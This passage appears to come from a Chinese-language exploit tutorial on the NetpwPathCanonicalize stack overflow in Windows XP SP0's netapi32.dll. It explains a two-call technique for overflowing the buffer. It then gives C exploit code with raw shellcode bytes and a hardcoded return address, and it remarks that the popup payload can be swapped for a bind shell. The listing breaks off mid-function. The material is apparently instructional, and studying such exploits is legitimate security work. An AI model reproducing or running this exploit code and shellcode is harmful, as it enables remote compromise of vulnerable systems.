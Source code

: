 当然，将普通弹框换成bind_shell的payload就可以拿到shell了~


### 0x03 exploit xp(sp0)

利用思路是：先调用一次NetpwPathCanonicalize()，此时栈上填充一部分数据但不足够溢出；再次调用NetpwPathCanonicalize()，而且此时不对栈数据初始化，将第二次的数据拼接上去。

```
#include "stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

#define PATH1_SIZE      (0xc2*2)
#define PATH2_SIZE      (0x167*2)
#define OUTBUF_SIZE     0x440
#define PREFIX_SIZE     0x410

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"				// 放置一些垃圾数据防止压栈操作破坏payload
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main()
{	
	char PathName1[PATH1_SIZE];
	char PathName2[PATH2_SIZE];
	char Outbuf[OUTBUF_SIZE];
	int OutbufLen=OUTBUF_SIZE;
	char Prefix1[PREFIX_SIZE];
	char Prefix2[PREFIX_SIZE];
	long PathType1=44;
	long PathType2=44;
	
	HINSTANCE LibHandle;
	MYPROC Trigger;
	char dll[ ] = "./netapi32.dll"; 
	char VulFunc[ ] = "NetpwPathCanonicalize";

	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

    // fill PathName
	memset(PathName1,0,sizeof(PathName1));
	memset(PathName1,0,sizeof(PathName1));
	memset(PathName1,'a',sizeof(PathName1)-2);
	memcpy(PathName1,shellcode,sizeof(shellcode));

	memset(PathName2,0,sizeof(PathName2));
	memset(PathName2,0,sizeof(PathName2));
	memset(PathName2,'b',sizeof(PathName2)-2);

	PathName2[0x2AE] = 0xDA;		// call ecx   0x71BD03DA
	PathName2[0x2AF] = 0x03;
	PathName2[0x2B0] = 0xBD;
	PathName2[0x2B1] = 0x71;

```